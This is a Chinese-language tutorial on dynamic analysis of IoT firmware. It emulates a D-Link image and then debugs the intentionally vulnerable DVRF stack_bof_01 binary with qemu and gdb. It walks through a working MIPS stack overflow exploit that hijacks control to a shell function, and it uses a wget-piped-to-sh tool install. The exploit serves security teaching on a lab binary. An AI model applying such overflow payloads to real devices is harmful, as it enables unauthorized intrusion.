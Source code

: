 # 动态分析 IoT 固件

动态分析固件之前，需要先把固件运行起来，但我们手头又没有路由器、摄像头之类的物联网硬件，该如何运行呢？这就需要虚拟执行，虚拟执行你就把它想象成一个虚拟机可以运行各种物联网OS就是了。虚拟执行IoT固件需要用到firmadyne工具，该工具很难安装，在kali上安装一直报错，你们可以尝试下，反正我是放弃了，最终还是乖乖地用attifyti提供的物联网渗透专用虚拟机，下载下来的文件直接用vmware导入就行了。
https://www.dropbox.com/sh/xrfzyp1ex2uii53/AAAF0mdA1qFaEBDYZoIxaQRma?dl=0
![1](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/1.png)

该系统为ubuntu14，密码为password@123，下面我们来演示虚拟执行一个dlink固件。
![2](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/2.png)

在tools/fat路径下运行fat.py，输入固件路径DWP2360b-firmware-v206-rc018.bin，然后是固件的品牌dlink，依次输入数据库密码firmadyne和用户密码password@123。
```
python fat.py
```
![3](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/3.png)

脚本执行成功后，会回显一个IP地址，这个IP就是模拟的固件地址。
![4](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/4.png)

以上只是简单地演示如何虚拟执行一个固件，下面我们就来实操如何通过动态调试分析一个固件，接下来的固件采用DVRF，这是个网友自制的充满漏洞的固件，供学习用的。
```
git clone https://github.com/praetorian-code/DVRF.git
```

开始之前，安装以下工具，动态调试中会用到。
```
sudo apt install gdb-multiarch
wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
sudo pip3 install capstone unicorn keystone-engine
```
安装keystone-engine时可能会报错，参考这个链接。
https://github.com/avatartwo/avatar2/issues/23

安装好工具后，就开始对固件进行分析啦，固件路径如下。
DVRF/Firmware/DVRF_v03.bin
使用binwalk提取固件文件系统。
```
binwalk -t -e DVRF_v03.bin
```
![5](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/5.png)

提取出来的系统有个文件夹pwnable，这个文件夹就是存放着有漏洞的程序示例，我们选取缓冲区漏洞程序stack_bof_01进行实验。首先使用readelf命令查看该程序的架构。
```
readelf -h pwnable/Intro/stack_bof_01
```
![6](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/6.png)

拷贝qemu-mipsel-static到当前目录，然后配合chroot虚拟执行stack_bof_01固件，可以成功执行。qemu是一款轻型的虚拟机。
```
cp $(which qemu-mipsel-static) .
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01
```
![7](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/7.png)

查看stack_bof_01的源码，可以发现明显的strcpy内存溢出漏洞，当参数argv[1]超过200时，就会出现buf溢出的现象。
```
cat DVRF/Pwnable Source/Intro/stack_bof_01.c
```
![8](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/8.png)

以调试的方式启动stack_bof_01，在本地的1234端口监听调试。
```
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01
```
![9](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/9.png)

运行以下命令开始调试。
```
gdb-multiarch pwnable/Intro/stack_bof_01
```
gdb运行后，会自动加载gef插件，然后设置固件架构为mips。
```
set architecture mips
```
设置完远程调试的IP和端口，就可开始调试stack_bof_01程序了。
```
target remote 127.0.0.1:1234
```
![10](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/10.png)

调用命令查看样本的所有函数，可以看到各个函数的地址。
```
info functions
```
![11](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/11.png)

如果你感兴趣，可以使用disass main命令查反汇编看下main函数的汇编码，这是mips架构的汇编码，跟x86的相差很大，完全看不懂。。

![12](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/12.png)

然后我们使用命令创建一个随机的300字节流，作为攻击字符串，用于测试参数溢出的点。
```
pattern create 300
```
![13](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/13.png)


重新带参数调试stack_bof_01。
```
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```
![14](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/14.png)

gdb挂上去后，输入c回车让程序跑起来，会发现程序崩溃了，SIGSEGV内存出错，指针ra指向0x63616162，对应的ASCII是”baac”。
![15](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/15.png)

使用命令查看该溢出点在攻击字符串的什么位置，是位于pattern的第204位。
```
pattern search 0x63616162
```
![15](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/15.png)
然后反汇编dat_shell函数，查看其函数地址，我们的目的是要让程序本来执行0x63616162，变成执行dat_shell的地址，理论上应该把0x63616162改成0x400950，但书上说要略过前3条gp相关的指令，我也不知道为啥，有兴趣的同学google下吧。
```
disass dat_shell
```
![16](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/16.png)

将待执行的函数地址拼凑到204个字节后面，便可劫持程序执行流到dat_shell函数（0x40095C）,从而实现缓冲区溢出攻击。
```
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01 "$(python -c "print 'A'*204 + '\x5c\x09\x40'")"
```
![17](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/17.png)

最后，试了下0x400950确实不行，会报错。
```
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01 "$(python -c "print 'A'*204 + '\x50\x09\x40'")"
```
![18](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/18.png)
